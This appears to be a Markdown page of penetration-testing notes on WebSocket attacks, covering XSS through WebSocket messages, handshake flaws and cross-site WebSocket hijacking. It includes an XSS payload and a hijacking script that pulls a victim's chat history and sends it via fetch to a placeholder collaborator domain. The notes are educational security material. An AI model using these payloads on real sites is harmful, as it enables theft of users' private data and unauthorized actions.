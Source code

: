 # Websockets

Sockets in web development refer to communication endpoints that allow bidirectional data flow between a client and a server in real-time, enabling dynamic and interactive web applications.

### Table of Content

- [Manipulating WebSocket messages](#manipulating-websocket-messages-to-exploit-vulnerabilities)
- [Manipulating the WebSocket handshake](#manipulating-the-websocket-handshake-to-exploit-vulnerabilities)
- [Using cross-site WebSockets hijacking](#using-cross-site-websockets)
- [Linux cmd](#linux-command)

## Manipulating WebSocket messages to exploit vulnerabilities

For example, suppose a chat application uses WebSockets to send chat messages between the browser and the server. When a user types a chat message, a WebSocket message like the following is sent to the server:

```json
{"message":"Hello Carlos"}
```

The contents of the message are transmitted (again via WebSockets) to another chat user, and rendered in the user's browser as follows:

```html
<td>Hello Carlos</td>
```

In this situation, provided no other input processing or defenses are in play, an attacker can perform a proof-of-concept XSS attack by submitting the following WebSocket message:

```html
{"message":"<img src=1 onerror='alert(1)'>"}
```

## Manipulating the WebSocket handshake to exploit vulnerabilities

Some WebSockets vulnerabilities can only be found and exploited by manipulating the WebSocket handshake. These vulnerabilities tend to involve design flaws, such as:

- Misplaced trust in HTTP headers to perform security decisions, such as the X-Forwarded-For header.
- Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message.
- Attack surface introduced by custom HTTP headers used by the application.

## Using cross-site WebSockets hijacking

Since a cross-site WebSocket hijacking attack is essentially a CSRF vulnerability on a WebSocket handshake, the first step to performing an attack is to review the WebSocket handshakes that the application carries out and determine whether they are protected against CSRF.

In terms of the normal conditions for CSRF attacks, you typically need to find a handshake message that relies solely on HTTP cookies for session handling and doesn't employ any tokens or other unpredictable values in request parameters.

For example, the following WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie:

```
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

Note:

*The Sec-WebSocket-Key header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.*

If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site. What happens next in the attack depends entirely on the application's logic and how it is using WebSockets. The attack might involve:

- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
- Sending WebSocket messages to retrieve sensitive data.
- Sometimes, just waiting for incoming messages to arrive containing sensitive data.

For example the websocket server sends back the history of the conversation of a user if a msg with "READY" is sent, then a simple XSS establishing the connection (the cookie will be sent automatically to authorise the victim user) sending "READY" will be able to retrieve the history of the conversation.:

```html
<script>
    websocket = new WebSocket('wss://your-websocket-URL')
    websocket.onopen = start
    websocket.onmessage = handleReply
    function start(event) {
    websocket.send("READY"); //Send the message to retreive confidential information
    }
    function handleReply(event) {
    //Exfiltrate the confidential information to attackers server
    fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
    }
</script>
```

## linux command

You can use websocat to establish a raw connection with a websocket.

```sh
websocat --insecure wss://10.10.10.10:8000 -v
```
Or to create a websocat server:

```sh
websocat -s 0.0.0.0:8000 #Listen in port 8000
```

---

[**:arrow_right_hook: Back home**](/README.md)